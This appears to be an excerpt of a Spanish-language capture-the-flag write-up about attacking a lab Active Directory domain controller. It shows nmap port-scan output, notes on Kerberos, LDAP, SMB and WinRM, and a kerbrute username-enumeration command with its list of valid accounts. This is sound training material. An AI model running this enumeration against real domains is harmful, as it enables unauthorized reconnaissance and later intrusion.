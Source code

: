 ```bash
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49836/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-29T16:30:57
|_  start_date: N/A
```

### Puertos relevantes encontrados
- **88/tcp** (Kerberos): Principal sistema de autenticación en AD.
- **389/tcp** (LDAP): Permite consultar información de objetos de dominio.
- **445/tcp** (SMB): Acceso a recursos compartidos en red.
- **5985/tcp** (WinRM): Shell remota vía PowerShell, útil para obtener RCE como usuarios válidos.
- **3268/tcp** (LDAP Global Catalog): Usado para búsquedas a nivel de todo el bosque. Su presencia confirma que estamos frente a un DC.
    

---

## Parte 2: Enumeración de usuarios vía Kerberos
### Teoría
Kerberos responde de manera distinta si un usuario existe o no, incluso sin conocer la contraseña. Esto permite enumerar usuarios a través de diferencias en códigos de error.
### Herramienta usada
```bash
kerbrute userenum --dc 10.10.7.146 -d spookysec.local users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 04/29/25 - Ronnie Flathers @ropnop

2025/04/29 20:02:17 >  Using KDC(s):
2025/04/29 20:02:17 >   10.10.7.146:88

2025/04/29 20:02:17 >  [+] VALID USERNAME:       james@spookysec.local
2025/04/29 20:02:21 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2025/04/29 20:02:25 >  [+] VALID USERNAME:       James@spookysec.local
2025/04/29 20:02:26 >  [+] VALID USERNAME:       robin@spookysec.local
2025/04/29 20:02:42 >  [+] VALID USERNAME:       darkstar@spookysec.local
2025/04/29 20:02:51 >  [+] VALID USERNAME:       administrator@spookysec.local
2025/04/29 20:03:11 >  [+] VALID USERNAME:       backup@spookysec.local
2025/04/29 20:03:20 >  [+] VALID USERNAME:       paradox@spookysec.local
2025/04/29 20:04:18 >  [+] VALID USERNAME:       JAMES@spookysec.local
```